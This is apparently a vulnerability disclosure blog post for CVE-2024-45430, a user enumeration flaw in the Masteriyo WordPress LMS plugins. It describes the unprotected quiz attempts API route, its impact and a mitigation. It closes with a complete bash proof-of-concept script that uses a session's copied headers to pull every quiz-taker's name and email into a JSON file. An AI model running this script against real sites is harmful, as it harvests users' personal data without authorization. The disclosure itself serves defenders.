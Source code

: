 ```yaml
---
title: User Enumeration Vulnerability in Masteriyo (CVE-2024-45430)
author: meyer
date: 2024-08-30 03:55:00 -0500
categories: [Cybersecurity]
tags: [cve, masteriyo, wordpress, plugin]
pin: true
---
```


## Overview

The Masteriyo LMS and Masteriyo PRO plugins contain a vulnerability that allows arbitrary user enumeration without administrative privileges. As of the publication date, this issue remains unresolved, affecting all available versions of both the free (<=1.12.3) and pro (<=2.13.3) editions.

## Technical Details

The Quiz Attempts functionality enables user enumeration, as both the administrative panel and the regular user dashboard use the same API endpoint that does not validate whether the user is an administrator or not. This means that any user can view the attempts of all other users. The affected route is /wp-json/masteriyo/v1/quizes/attempts/?page=1&per_page=10, where manipulating the arguments and formatting the output allows enumerating all users who have taken quizzes.

![quiz-attempts](/assets/img/dashboard-quiz-attempts.png)
_Normal behavior_

![quiz-attempts-fail](/assets/img/dashboard-quiz-attempts-fail.png)
_Using the filter_

![quiz-attemps-object](/assets/img/quiz-attempts-object.png)
_Another user object_

## Impact

By exploiting this vulnerability, an attacker can retrieve sensitive user information, such as display names, first names, last names, and email addresses, without any authentication or authorization checks.

## Mitigation

Disabling the quiz attempts page for users is the unique solution for now.

![mitigation](/assets/img/mitigation.png)
_WordPress Admin Panel_

## Exploit

```bash
#!/bin/bash

# CVE: CVE-2024-45430
# PoC Script
# Author: Meyer Pidiache <meyer-pidiache>
# Description: This script is a proof of concept for CVE-2024-45430.
# Prerequisites:
# - Headers file for HTTP requests (default 'headers.txt').
# Usage:
#   ./script.sh -u <URL of the API endpoint> -h <headers file> -o <users output file>
# Example:
#   ./script.sh -u http://localhost:8080/wp-json/masteriyo/v1/quizes/attempts -h headers.txt -o users.json
# Notes:
#   To obtain the headers from any request with an active session:
#   Browser -> Developer Tools -> Network -> Request -> Right-click -> Copy value -> Copy request headers.

# Colors and formatting for CLI output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
BLUE='\033[0;34m'
BOLD='\033[1m'
NC='\033[0m' # No color

# Function to display usage
show_usage() {
  echo -e "${YELLOW}Usage: $0 -u <URL of the API endpoint> -h <headers file> -o <users output file>${NC}"
  exit 1
}

# Process arguments
while getopts ":u:h:o:" opt; do
  case $opt in
    u) BASE_URL="$OPTARG" ;;
    h) HEADERS_FILE="$OPTARG" ;;
    o) USER_FILE="$OPTARG" ;;
    \?) echo -e "${RED}[!] Invalid option -$OPTARG${NC}" >&2; show_usage ;;
    :) echo -e "${RED}[!] Option -$OPTARG requires an argument${NC}" >&2; show_usage ;;
  esac
done

# Check that the base URL was provided
if [ -z "$BASE_URL" ]; then
  echo -e "${RED}[!] You must provide the Base URL as an argument.${NC}"
  show_usage
fi

# Use default values if no files were provided
HEADERS_FILE="${HEADERS_FILE:-headers.txt}"
USER_FILE="${USER_FILE:-users.json}"

# Read headers from file and exclude lines that start with "GET", "POST", etc.
HEADERS=()
while IFS= read -r line; do
  if [[ "$line" != *HTTP* ]]; then
    HEADERS+=('-H' "$line")
  fi
done < "$HEADERS_FILE"

# Check if the users file exists, if not create it as an empty array
if [ ! -f "$USER_FILE" ]; then
  echo "[]" > "$USER_FILE"
  echo -e "${YELLOW}[!] File $USER_FILE created as an empty array.${NC}"
fi

echo -e "${BLUE}[*] Retrieving the total number of attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the first request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=1\" \"${HEADERS[@]}\"${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  exit 1
fi

total_attempts=$(echo "$response" | jq -r '.meta.total')

if [ -z "$total_attempts" ] || [ "$total_attempts" -le 0 ]; then
  echo -e "${RED}[!] Failed to retrieve the total number of attempts.${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  total_attempts=10
fi

echo -e "${GREEN}[*] Total attempts to investigate: $total_attempts${NC}"

echo -e "${BLUE}[*] Investigating attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the second request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user\" \"${HEADERS[@]}\"${NC}"
  exit 1
fi

existing_ids=$(jq -r '.[].id' "$USER_FILE")

if [ ${#existing_ids[@]} -gt 0 ]; then
  echo -e "${BLUE}[*] Saving user information...${NC}"

  # Use an associative array to store existing IDs
  declare -A id_map
  for id in $existing_ids; do
    id_map["$id"]=1
  done

  echo "$response" | jq -c '.data[] | .user' | while IFS= read -r user; do
    id=$(echo "$user" | jq -r '.id')

    if [[ -z "${id_map[$id]}" ]]; then
      # Add user to the file
      jq --argjson user "$user" '. += [$user]' "$USER_FILE" > "${USER_FILE}.tmp" && mv "${USER_FILE}.tmp" "$USER_FILE"
      id_map["$id"]=1

      useremail=$(echo "$user" | jq -r '.email')
      echo -e "${GREEN}[*] User saved: ${BOLD}$useremail${NC} (ID: $id)"
    fi
  done

else
  echo -e "${YELLOW}[*] No users found.${NC}"
fi

echo -e "${BLUE}[*] Operation completed.${NC}"
```

![exploit](/assets/img/exploit.png)